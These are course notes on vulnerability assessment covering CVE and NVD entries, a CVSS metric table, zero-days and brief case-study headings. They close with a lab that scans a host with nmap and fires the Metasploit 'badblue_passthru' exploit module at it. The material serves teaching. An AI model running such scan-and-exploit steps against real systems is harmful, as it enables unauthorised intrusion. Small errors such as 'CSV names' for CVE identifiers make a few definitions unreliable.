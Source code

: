 # 4. Vulnerability assessment

### Topics

* Vulnerabilities
* Case studies
  * Heartbleed
  * EternalBlue
  * Log4j
* Labs
  * Nessus
  * ExploitDB

### Learning objectives

* Students will describe vulnerabilities.
* Students will recognize Common Vulnerabilities and Exposures reports and National Vulnerability Database submissions.
* Students will understand non-technical vulnerabilities.
* Students will describe vulnerability management.
* Students will perform network auditing.
* Students will perform vulnerability research.

### Overview

#### Definitions

**NIST :** a weakness in the computational logic (e.g. code) found in software and hardware components that, when exploited, results in a negative impact to confidentiality, integirty, or availability.

There are several types of vulnerabilities :

* Heist vulnerabilities : the physical layer of the OSI model covers different physical access : mantraps, volts, proper door lock, gates, fences, lighting, cameras.
* Cybersecurity vulnerabilities : they come from a software or the operating system itself. Vulnerabilities are found by DevSecOps engineers, security researchers, pentesters, software developers or users.

**CVE :** Common Vulnerabilities and Exposures. One of them is managed by MITRE Corporation funded through the National Cybersecurity Division of US Department of Homeland Security.

**NVD :** National Vulnerability Database.

#### CVE identifiers

The CVE identifiers aliases are _CSV names_, _CVE numbers_, _CVE-IDs_ or _CVEs_. All of these CVEs have a unique identifier, example :

* CVE-2021-44228 : Log4j
* CVE-2014-0160 : Heartbleed
* CVE-2017-0143 : Eternal Blue

#### Vulnerability detail pages

* Description
* Severity
* References
* Weakness enumeration
* Known affected software configurations

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

These are the detail page of the `CVE-2021-44228` or `Log4j`.

* https://nvd.nist.gov/vuln/detail/cve-2021-44228
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228

Weakness enumeration helps to solve the CVE in the future.

<figure><img src="../../.gitbook/assets/39.png" alt=""><figcaption></figcaption></figure>

The **critical score (CVSS)** can be calcutated [here](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228\&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H\&version=3.1\&source=NIST).

| cMetric                         | Acronym | Parameter                                                                            |
| ------------------------------- | ------- | ------------------------------------------------------------------------------------ |
| **Base Score Metrics**          |         |                                                                                      |
| Attack Vector                   | AV      | Network - Adjacent network - Local - Physical                                        |
| Attack Complexity               | AC      | Low - High                                                                           |
| Privileges Required             | PR      | Not defined - Low - High                                                             |
| User Interaction                | UI      | Not defined - Required                                                               |
| Scope                           | S       | Unchanged - Changed                                                                  |
| Confidentiality Impact          | C       | Not defined - Low - High                                                             |
| Integrity Impact                | I       | Not defined - Low - High                                                             |
| Availability Impact             | A       | Not defined - Low - High                                                             |
| **Temporal Score Metrics**      |         |                                                                                      |
| Exploit Code Maturity           | E       | Not defined - Unproven that exploit exists - POCC - Functional exploit exists - High |
| Remediation Level               | RL      | Not defined - Official fix - Temporary fix - Workaround - Unavailable                |
| Report Confidence               | RC      | Not defined - Unkown - Reasonable - Confirmed                                        |
| **Environmental Score Metrics** |         |                                                                                      |
| Attack Vector                   | MAV     | Not defined - Network - Adjacent Network - Local - Physical                          |
| Attack Complexity               | MAC     | Not defined - Low - High                                                             |
| Privileges Required             | MPR     | Not defined - Low - High                                                             |
| User Interaction                | MUI     | Not defined - Required                                                               |
| Scope                           | MS      | Not defined - Unchanged - Changed                                                    |
| Confidentiality Impact          | MC      | Not defined - Low - High                                                             |
| Integrity Impact                | MI      | Not defined - Low - High                                                             |
| Availability Impact             | MA      | Not defined - Low - High                                                             |
| Confidentiality Requirement     | CR      | Not defined - Low - Medium - High                                                    |
| Intergrity Requirement          | IR      | Not defined - Low - Medium - High                                                    |
| Availability Requirement        | AR      | Not defined - Low - Medium - High                                                    |
| ### Zero day                    |         |                                                                                      |

There are vulnerabilities that haven't been found. That we call a zero-day exploit, meaning no one else knows about it or no one else has exploited it or no one else has at least reported it to the CVE organisation.

#### Other vulnerabilities

Not all vulnerabilities are computer code. Social engineering and utilizing interpersonal skills are going to be just as helpful for a hacker or a pentester in order to get access to information or the network. Than can include using known social engineering for passwords or taking advantage of maybe some of your physical operational technology controls, such as card readers or access badges.

#### How to find vulnerabilities ?

* Scanning
* Asset identification + research
* Fuzz testing (input/handling validation)

### Case studies

#### Heartbleed CVE-2014-0160

Link : https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-0160

#### EternalBlue CVE-2017-0143

#### Log4J CVE-2021-44228

### Lab 1 : Nessus

Nessus is an enumeration tool and vulnerabilities scanning tool : https://www.tenable.com/downloads/nessus?loginAttempted=true

### Lab 2 : vulnerability research

```bash
john@kali> ip a
john@kali> nmap 10.3.27.0
john@kali> nmap 10.3.27.0 -p 80,135,139,445,3389 -sV

john@kali> msfconsole
msf5> use exploit/windows/http/badblue_passthru
msf5> set rhosts 10.3.27.0
msf5> run
```
